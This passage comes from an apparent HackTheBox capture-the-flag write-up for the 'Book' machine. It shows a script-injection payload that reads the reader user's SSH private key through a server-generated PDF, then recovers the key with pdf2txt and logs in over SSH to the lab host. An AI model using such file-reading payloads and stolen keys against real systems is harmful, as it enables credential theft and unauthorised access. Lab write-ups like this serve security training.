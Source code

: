 Let's try to see if we can get ssh keys of `reader` user

```javascript
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```
![Book](/assets/img/post/hackthebox/book/5.png)

If we directly copy key from pdf it isn't working so we will convert pdf into txt file using [pdf2txt](https://github.com/pdfminer/pdfminer.six)

```bash
python tool/pdf2txt.py 971.pdf > id_rsa
```
After that we can `ssh`

```bash
 ~/htb/boxes/Book >> ssh -i id_rsa reader@10.10.10.176
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.4.1-050401-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri May  8 15:12:44 UTC 2020

  System load:  0.02               Processes:            144
  Usage of /:   26.7% of 19.56GB   Users logged in:      0
  Memory usage: 26%                IP address for ens33: 10.10.10.176
  Swap usage:   0%
```